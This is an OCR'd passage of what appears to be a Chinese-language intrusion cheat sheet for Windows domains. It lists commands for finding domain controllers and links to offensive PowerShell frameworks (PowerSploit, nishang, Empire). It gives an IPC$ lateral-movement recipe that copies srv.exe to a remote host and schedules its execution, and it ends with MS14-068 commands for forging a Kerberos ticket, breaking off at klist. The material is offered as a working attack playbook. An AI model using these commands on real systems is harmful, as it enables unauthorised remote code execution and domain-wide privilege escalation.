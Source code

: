 > >
> > ipconfig /all 中的 DNS Suffix Search List
> >
> > 扫描53端口，找 dns 位置
> >
> > set log
> >
> > net group "domain controllers" /domain
> >
> > PowerView Get-NetDomainController
>
> PowerView 地址:
>
> > https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon
>
> ### windows log
>
> 微软第三方信息收集工具 LogParser.exe psloglist.exe 等
>
> ### powerhsell 神器
>
> nishang
>
> > https://github.com/samratashok/nishang
>
> spn扫描
>
> > https://github.com/nullbind/Powershellery/tree/master/Stable-ish
>
> PowerSploit
>
> > https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon
>
> 针对ps的Empire
>
> > https://github.com/EmpireProject/Empire
>
> ### ipc$
>
> > D:>net use \\\192.168.1.254\c$ "pwd" /user:user   //连接192.168.1.254的IPC$共享，用unc路径
> >
> > D:>copy srv.exe \\\192.168.1.254\c$ //复制本地 srv.exe 到C根目录
> >
> > D:>net time \\\192.168.1.254     //查时间
> >
> > D:>at　\\\192.168.1.254 10:50 srv.exe //用at命令在10点50分启动 srv.exe (这里360会拦截)
> >
> > D:>net use \\\192.168.1.254\c$ /del 
>
> ### ms14-068 Kerberos 漏洞利用：
>
> 生成 TGT：用于伪造
>
> > whoami /all  获得：用户@ 域名、用户 sid、域主机
>
> > python ms14068.py -u admin@xxx.com -p password -s sid -d dc.xxx.com
> >
> > ms14068.exe -u admin@xxx.com -p password -s sid -d dc.xxx.com
>
> 会生成 TGT_admin@xxx.com.ccache
>
> 注入 TGT：
>
> > klist